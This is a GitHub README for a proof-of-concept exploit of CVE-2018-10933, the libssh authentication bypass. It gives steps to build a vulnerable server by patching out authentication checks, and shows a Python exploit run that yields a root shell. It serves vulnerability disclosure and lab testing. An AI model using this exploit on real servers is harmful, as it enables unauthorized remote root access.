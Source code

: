 # CVE-2018-10933 - libssh Server-side Auth. Bypass
This is a simple Proof of Concept (PoC) to demonstrate successful
exploitation of the authentication-bypass vulnerability as found in
the server-side code of libssh 0.6 and later. See [Security Advisory for CVE-2018-10933](https://www.libssh.org/security/advisories/CVE-2018-10933.txt)
for more information.

## Vulnerable Server POC
In order to spawn and control a shell, the server code must somehow allow
several SSH requests such as `shell channel request`. Most implementations found
in the wild disallow them by checking the internal session's authentication
state. If the programmer insufficiently checked the authentication states, the
exploitation may be successful.

The [CVE-2018-10933-server.patch](CVE-2018-10933-server.patch) patch removes
checks for the authentication states in the `ssh_server_fork.c` example shipped
with libssh-0.7.4. See below for the patching instructions.

### Building the vulnerable server
```
$ wget https://www.libssh.org/files/0.7/libssh-0.7.4.tar.xz
$ tar -xvf libssh-0.7.4.tar.xz
$ cd libssh-0.7.4/
$ cd examples/
$ patch -p0 < CVE-2018-10933-server.patch
$ cd ..
$ mkdir -p build
$ cmake ..
$ make
```

### Running the vulnerable server
Here we're running the vulnerable SSH server to listen on localhost on port
tcp/2222:
```
$ cd examples/
$ sudo ./ssh_server_fork -p 2222 127.0.0.1
```

## Exploit
This repository includes a simple [exploit](CVE-2018-10933-SHELL-POC.py) code
written in Python that allow you to pass commands directly to the shell of a
vulnerable libssh server (see above for a vulnerable server implementation).

#### Prerequisites
 * Python 2.7 or 3.4+
 * [Paramiko](http://www.paramiko.org/)

### Features
 * Remote shell (non-interactive)
 * TCP Port Forwarding (experimental)

#### Usage
```
$ git clone https://github.com/e3prom/miscsec.git
$ cd miscsec/CVE-2018-10933
$ python CVE-2018-10933-SHELL-POC.py --verbose -p 2222 127.0.0.1
[*] Type 'quit' to exit this command prompt.

$ id
uid=0(root) gid=0(root) groups=0(root),999(docker)
$ quit
```

## Disclaimer
As always, please check your local laws and regulation regarding the use of
this software. Do not use this exploit on a server without the owner's
consent and authorization.

## Credits
* The vulnerability has been discovered by Peter Winter-Smith of NCC Group.
* [CVE-2018-10933: libssh: authentication bypass in server code](https://seclists.org/oss-sec/2018/q4/55)
* [SoledaD208's CVE-2018-10933 very simple POC](https://github.com/SoledaD208/CVE-2018-10933)

